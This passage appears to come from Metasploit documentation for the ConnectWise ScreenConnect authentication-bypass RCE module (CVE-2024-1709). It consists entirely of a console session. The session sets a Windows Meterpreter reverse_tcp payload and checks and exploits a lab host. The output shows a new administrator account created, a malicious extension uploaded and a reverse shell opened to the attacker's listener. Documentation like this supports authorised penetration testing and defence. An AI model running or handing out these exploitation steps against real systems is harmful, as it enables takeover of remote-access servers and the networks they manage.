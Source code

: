 ## Scenarios

### Windows In-Memory

```
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set target 0
target => 0
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set LHOST eth0
LHOST => eth0
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > set RHOST 192.168.86.50
RHOST => 192.168.86.50
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > show options

Module options (exploit/multi/http/connectwise_screenconnect_rce_cve_2024_1709):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   192.168.86.50    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    8040             yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                     no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     eth0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows In-Memory



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > check
[*] 192.168.86.50:8040 - The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
msf6 exploit(multi/http/connectwise_screenconnect_rce_cve_2024_1709) > exploit

[*] Started reverse TCP handler on 192.168.86.42:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. ConnectWise ScreenConnect 23.9.7 running on Windows.
[*] Created account: qyxzcxgk:SMsGSJCbcTaJZ5f2 (Note: This account will not be deleted by the module)
[*] Uploaded Extension: 81060d26-6fc8-5d1a-0566-b6f0503a8934
[*] Removing Extension: 81060d26-6fc8-5d1a-0566-b6f0503a8934
[*] Sending stage (201798 bytes) to 192.168.86.50
[+] Deleted C:\Program Files (x86)\ScreenConnect\App_Extensions\fuypfhwx.ashx
[*] Meterpreter session 1 opened (192.168.86.42:4444 -> 192.168.86.50:50536) at 2024-02-22 14:42:13 +0000
```